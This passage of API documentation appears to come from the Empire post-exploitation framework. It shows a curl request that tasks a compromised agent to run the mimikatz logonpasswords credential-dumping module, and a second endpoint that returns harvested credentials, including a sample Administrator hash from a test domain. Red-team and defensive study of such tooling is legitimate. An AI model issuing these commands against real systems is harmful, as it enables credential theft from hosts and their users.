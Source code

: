 #### Handler

* **Handler** : POST /api/modules/MODULE_NAME
* Description : Tasks an
* Parameters (none required) :
  * Agent    : the agent to task the module for (or all). Required.
  * *additional*    : any additional module values enumerated from module options

#### Example

**Request**:
```bash
curl --insecure -i -H "Content-Type: application/json" https://localhost:1337/api/modules/credentials/mimikatz/logonpasswords?token=$TOKEN -X POST -d '{"Agent":"WTN1LHHRYHFWHXU3"}'

```

**Response**:
```json
{
  "msg": "tasked agent WTN1LHHRYHFWHXU3 to run module credentials/mimikatz/logonpasswords",
  "success": true
}
```


## Credentials

### Get Stored Credentials

#### Handler

* **Handler** : GET /api/creds
* Description : Returns all credentials currently stored in an Empire server.
* No parameters

#### Example

**Request**:
```bash
curl --insecure -i https://localhost:1337/api/creds?token=ks23jlvdki4fj1j23w39h0h0xcuwjrqilocxd6b5
```

**Response**:
```json
{
  "creds": [
    {
      "ID": 1,
      "credtype": "hash",
      "domain": "testlab.local",
      "host": "WINDOWS1",
      "notes": "2016-03-31 17:37:23",
      "password": "2b576acbe6b...",
      "sid": "S-1-5-21-664317401-282805101-...",
      "username": "Administrator"
    },
    ...
  ]
}
```
